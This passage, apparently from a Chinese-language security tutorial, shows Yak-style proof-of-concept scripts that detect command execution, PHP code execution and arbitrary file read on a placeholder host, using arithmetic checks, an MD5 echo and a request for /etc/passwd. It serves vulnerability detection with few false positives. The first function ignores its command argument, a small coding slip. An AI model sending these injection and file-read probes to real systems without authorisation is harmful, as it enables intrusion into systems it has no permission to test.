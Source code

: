 **案例：命令执行 - 不知道目标操作系统**  
  
这里的思路是多发几个请求，满足一个就行  
```
// 计算与判断两个整数的和
func checkPacket(command, want) {
    cmd = codec.EscapeQueryUrl(f`cmd /c "set /a ${i}+${j}"`)
    rsp, req = poc.HTTPEx(f`GET /rce?cmd=${cmd} HTTP/1.1
Host: www.vulnerable.com

`)~
    return string(want) in rsp.RawPacket
}

i,j = randn(1000, 2000), randn(100, 999)
sum = i + j
linuxCmd = codec.EscapeQueryUrl(f"expr ${i}+${j}")
windowsCmd = codec.EscapeQueryUrl(f`cmd /c "set /a ${i}+${j}"`)
if checkPacket(linuxCmd, sum) || checkPacket(windowsCmd, sum) {
    dump("存在漏洞")
}
```  
  
**案例：代码执行 - PHP**  
```
// 计算与判断一个随机字符串的MD5
s = randstr(16)
cmd = codec.EscapeQueryUrl(f`echo md5("${s}");`)
rsp, req = poc.HTTPEx(f`GET /rce?code=${cmd} HTTP/1.1
Host: www.vulnerable.com

`)~
if codec.Md5(s) in rsp.RawPacket {
    dump("存在漏洞")
}
```  
  
  
在其他操作系统与脚本语言中一样能找到类似的函数来进行**计算**，通过这种方法来判断此类漏洞，就可以减少误报的发生。  
  
  
## **文件读取**  
  
此类漏洞我们主要思考的是读取文件的路径，一般寻找固定位置和固定特征以及默认存在的文件，同时要考虑目标操作系统的问题（Windows/Linux等）。  
  
**案例：Linux**  
  
以/etc/passwd为例：  
```
fp = "/etc/passwd"
rsp, req = poc.HTTPEx(f`GET /file_read?file=${fp} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if rsp.GetStatusCode() == 200 && len(body) > 0 && "root:x:" in body && "nobody:x:" in body {
    dump("存在漏洞")
}
```  
  